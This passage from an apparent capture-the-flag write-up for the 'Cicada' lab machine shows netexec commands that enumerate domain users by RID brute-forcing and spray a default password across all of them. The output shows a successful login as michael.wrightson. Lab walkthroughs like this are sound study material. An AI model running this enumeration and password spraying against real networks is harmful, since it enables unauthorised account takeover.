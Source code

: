 I’ll use `grep` and `cut` to make a users list from this:

```

oxdf@hacky$ netexec smb CICADA-DC -u guest -p '' --rid-brute | grep SidTypeUser | cut -d'\' -f2 | cut -d' ' -f1 | tee users
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars

```

## Auth as michael.wrightson

### Find User

`netexec` can try the default password with each user on the list:

```

oxdf@hacky$ netexec smb CICADA-DC -u users -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE

```

It works for michael.wrightson.

### Check Access
